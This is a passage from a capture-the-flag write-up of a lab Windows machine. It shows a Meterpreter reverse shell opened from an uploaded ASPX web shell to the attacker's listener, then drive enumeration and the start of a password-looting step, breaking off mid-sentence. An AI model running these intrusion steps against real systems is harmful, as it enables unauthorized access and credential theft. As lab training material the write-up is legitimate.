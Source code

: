 ```

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.174:9999
[*] Sending stage (201283 bytes) to 10.10.10.203
[*] Meterpreter session 1 opened (10.10.14.174:9999 -> 10.10.10.203:55557) at 2020-10-21 20:33:24 +0200

meterpreter >
```

Access the reverse shell & enjoy the meterpreter http://alpha.worker.htb/assets/cyfun.aspx

## Privilege Escalation of Machine : from iis apppool\defaultapppool to robisl

```
meterpreter > shell
Process 8920 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```

Let's [list the available drives](https://superuser.com/questions/139899/see-available-drives-from-windows-cli):

```
c:\windows\system32\inetsrv>wmic logicaldisk get volumename,name,caption
Caption  Name  VolumeName
C:       C:
W:       W:    Work

c:\windows\system32\inetsrv>fsutil fsinfo drives

Drives: C:\ W:\
```

We have an unusual drive with label W:

```
c:\windows\system32\inetsrv>ls w:\
AzureDevOpsData
System Volume Information
agents
sites
svnrepos
```

Using a [Guifre](https://guif.re/windowseop#pe%203:%20ClearText%20passwords%20(quick%20hits)) technique to quickly loot password I found a promising file:
